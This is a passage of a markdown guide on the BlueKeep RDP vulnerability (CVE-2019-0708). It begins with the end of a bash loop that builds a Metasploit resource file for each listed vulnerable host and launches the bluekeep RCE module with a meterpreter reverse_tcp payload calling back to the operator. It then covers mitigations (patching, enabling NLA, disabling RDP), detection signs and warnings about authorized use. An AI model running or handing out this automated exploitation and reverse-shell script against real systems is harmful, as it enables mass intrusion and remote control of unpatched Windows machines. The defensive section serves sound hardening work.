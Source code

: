 ```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS $vulnerable_host
set LHOST <YOUR_IP>
set TARGET 2
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LPORT 5555
exploit
EOF

    # Execute Metasploit with resource file
    msfconsole -r /tmp/bluekeep_$vulnerable_host.rc &

done < $VULNERABLE_FILE
```

## Defensive Considerations

### Mitigation Strategies

1. **Apply Patches**: Install Microsoft security updates from May 2019 or later
2. **Enable Network Level Authentication (NLA)**:

   ```powershell
   # Check NLA status
   Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" -Name "UserAuthentication"

   # Enable NLA (value 1 enables, 0 disables)
   Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" -Name "UserAuthentication" -Value 1
   ```

3. **Disable RDP if Not Required**:

   ```powershell
   # Disable RDP service
   Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 1
   ```

4. **Network Segmentation**: Restrict RDP access to specific networks
5. **Firewall Rules**: Block external RDP access (port 3389)

### Detection Signatures

- Multiple RDP connection attempts without authentication
- Unusual RDP traffic patterns
- Kernel memory allocation anomalies
- System crashes following RDP connections

## Important Security Notes

- **Use Only in Authorized Environments**: BlueKeep exploitation can cause system instability
- **Test Carefully**: Always test in isolated environments first
- **Consider Alternatives**: If NLA is enabled, BlueKeep exploitation will fail
- **Monitor for Crashes**: Kernel exploits frequently cause target system instability
- **Legal Compliance**: Ensure all testing complies with local laws and regulations
